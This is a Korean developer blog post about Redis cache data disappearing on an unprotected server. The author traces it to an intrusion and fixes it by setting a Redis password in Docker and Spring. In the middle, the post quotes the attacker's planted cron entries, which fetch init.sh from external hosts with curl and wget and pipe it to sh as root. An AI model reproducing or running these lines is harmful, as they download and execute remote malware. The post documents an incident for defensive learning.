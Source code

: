 ```yaml
---
date: 2023-03-9
title: "TTL 설정 없이도 Redis 저장 내용이 사라진다면"
category :
  - Wealth Marble
permalink: /wealth-marble/TTL 설정 없이도 Redis 저장 내용이 사라진다면/

toc: true
toc_sticky: true
---
```


<p><img alt="" src="https://velog.velcdn.com/images/kny8092/post/1ab5e216-20ad-43cc-92f4-183e13d10b42/image.png" /></p>
<p>분명히 로컬에서 Test 했을 때는 정상적으로 동작했고, 배포 된 서버에 요청을 보냈을 때 Redis에 원하는 값이 저장되는 것을 확인했다.
그런데.. 몇 시간뒤나 다음날 다시 테스트하려고 하면 자꾸 캐싱해둔 내용이 사라져있다...
초면인 backup1 ~ backup4가 있다...
혹시 redis 비밀번호를 따로 설정하지 않았다면</p>
<blockquote>
<p>누군가 내 작고 소중한 Redis를 몰래 쓰고있다.</p>
</blockquote>
<p>이전에 부스트캠프 프로젝트를 하면서 다른 조에서 해킹을 당했었다는 내용을 공유받은 적이 있었는데, 그 당시에는 Redis 사용을 고려하지 않았고 우리 프로젝트는 github star도 많지 않으니 해킹을 당하겠어? 라는 아주 안일한 생각을 하고 있었다.</p>
<p>처음에는 TTL설정 문제인줄 알고 Redis default TTL을 계속 찾아봤다.
하지만 관련 문제는 아니였다.</p>
<p>다음에 했던 것이 Redis에 어떤 command가 날라왔는지 조사를 했는데, 엄청 많은 요청이 계속 들어오고 있었다.</p>
<pre><code class="language-shell">> redis-cli
> monitor</code></pre>
<img height="50%" src="https://velog.velcdn.com/images/kny8092/post/309d8b55-3815-4705-8cc0-60001ba94c5f/image.png" />


<p>그제서야 전에 해킹관련 이야기를 들었던 것이 생각이 났고, 찾아보기 시작했다.
(이후에 알았지만 저 명령들은 내 Redis Explorer에서 요청보낸 것..)</p>
<h3 id="누구세요">누구세요</h3>
<p>backup에 적힌 내용을 가만히 살펴보니 다음과 같았다.</p>
<pre><code class="language-shell">*/2 * * * * root cd1 -fsSL http://en2an.top/cleanfda/init.sh | sh
*/3 * * * * root wget -q -O- http://en2an.top/cleanfda/init.sh | sh
*/4 * * * * root curl -fsSL http://45.83.123.29/cleanfda/init.sh | sh
*/5 * * * * root wd1 -q -O- http://45.83.123.29/cleanfda/init.sh | sh</code></pre>
<p>주기적으로 스크립트를 다운받아 실행 시키고 있었다.</p>
<p><img alt="" src="https://velog.velcdn.com/images/kny8092/post/cc49ce32-5227-4e5a-a356-a76687adc4e9/image.png" /></p>
<p>ip를 찾아봤을 때 우리나라는 아니였다.. 저 sh을 받아보고 싶었지만, 무슨 위험이 있을지 몰라서 빤히 쳐다보는 일 밖에 할 수 없다...;;</p>
<h3 id="외양간-고치기">외양간 고치기</h3>
<p>비밀번호는 다음 명령으로 설정 가능하다.</p>
<pre><code class="language-shell"># docker container 실행 시 설정
$ docker run --name redis -p 6379:6379 -d redis --requirepass {password}

# docker 내부 접속하여 redis cli 명령을 사용하고 싶을 때
$ docker exec -it redis redis-cli -a {password}</code></pre>
<pre><code class="language-java">
@Configuration
public class RedisConfig {

    @Value("${spring.redis.host}")
    private String host;

    @Value("${spring.redis.port}")
    private Integer port;

    @Value("${spring.redis.password}")
    private String password; # 비밀번호 설정 추가

    @Bean
    public RedisConnectionFactory redisConnectionFactory() {
        RedisStandaloneConfiguration redisStandaloneConfiguration = new RedisStandaloneConfiguration();
        redisStandaloneConfiguration.setHostName(host);
        redisStandaloneConfiguration.setPort(port);
        redisStandaloneConfiguration.setPassword(password);
        LettuceConnectionFactory lettuceConnectionFactory = new LettuceConnectionFactory(redisStandaloneConfiguration);
        return lettuceConnectionFactory;
    }
}
</code></pre>
<h3 id="교훈">교훈</h3>
<p>서버 환경에 배포 시에는 password 설정과 port 허용에 신경쓰자!</p>
<hr />
<p>참고
<a href="https://gofnrk.tistory.com/84">https://gofnrk.tistory.com/84</a>
<a href="http://redisgate.kr/redis/education/redis_hacking.php">http://redisgate.kr/redis/education/redis_hacking.php</a></p>